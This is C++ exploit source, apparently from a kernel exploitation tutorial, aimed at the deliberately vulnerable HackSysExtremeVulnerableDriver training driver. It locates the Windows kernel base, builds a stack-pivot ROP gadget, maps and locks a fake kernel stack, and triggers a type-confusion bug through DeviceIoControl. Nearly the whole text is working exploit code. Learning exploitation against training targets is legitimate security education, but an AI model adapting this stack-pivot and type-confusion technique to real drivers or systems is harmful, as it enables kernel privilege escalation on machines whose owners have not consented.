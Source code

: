 ```cpp

int main() {

	UINT64 KernelBase = GetNtBase();

	if (KernelBase == 0) {
		printf("\n[!] ERROR GETTING THE KERNEL BASE ADDRESS\n");
		getchar();
		return -1;
	}
	printf("\n[KERNEL BASE] -> 0x%p\n", KernelBase);

	HANDLE hHEVD = CreateFileW(L"\\\\.\\HackSysExtremeVulnerableDriver", (GENERIC_READ | GENERIC_WRITE),
		0, nullptr, OPEN_EXISTING, 0, nullptr);
	if (hHEVD == INVALID_HANDLE_VALUE) {
		printf("\nError getting a handle to the driver\n");
		// getchar();
		//return -1;
	}
	printf("\nHANDLE created successfully!\n");

	// Gadgets:
	// 0x140522840: mov esp, 0xE8000000 ; ret ; (1 found)

	UINT64 StackPivotGadget = KernelBase + 0x522840;
	volatile UINT64 STACK_PIVOT = 0xE8000000;
	UINT64 NopGadget = KernelBase + 0x7dfa;

	UINT64 StackAddr = STACK_PIVOT - 0x1000;
	
	LPVOID KernelStack = VirtualAlloc((LPVOID)StackAddr, 0x10000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (KernelStack == 0) {
		printf("\nERROR ALLOCATING THE BUFFER -> %d\n", GetLastError());
		getchar();
		return -1;
	}
	if(!VirtualLock(KernelStack, 0x10000)){
		printf("\nERROR LOCKING THE MEMORY RANGE -> %d\n", GetLastError());
		getchar();
		return -1;
	}
	memset(KernelStack, 0x41, 0x1000);

	USER_TYPE_CONFUSION_OBJECT UserStruct = { 0 };
	UserStruct.ObjectID = 0x4141414141414141; // dumy value
	UserStruct.ObjectType = StackPivotGadget;

	memcpy((UINT64*)STACK_PIVOT, &NopGadget, sizeof(UINT64));
	memcpy((UINT64*)STACK_PIVOT + 1, &NopGadget, sizeof(UINT64));
	memcpy((UINT64*)STACK_PIVOT + 2, &NopGadget, sizeof(UINT64));
	memcpy((UINT64*)STACK_PIVOT + 3, &NopGadget, sizeof(UINT64));

	ULONG lpBytesReturned = 0;
	if (!DeviceIoControl(hHEVD, 0x222023, &UserStruct, sizeof(USER_TYPE_CONFUSION_OBJECT), nullptr, 0, &lpBytesReturned, nullptr)) {
		printf("\n[Error triggering Type Confusion]\n");
		// getchar();
		// return -1;
	}

	VirtualFree(KernelStack, 0x10000, MEM_RELEASE);
```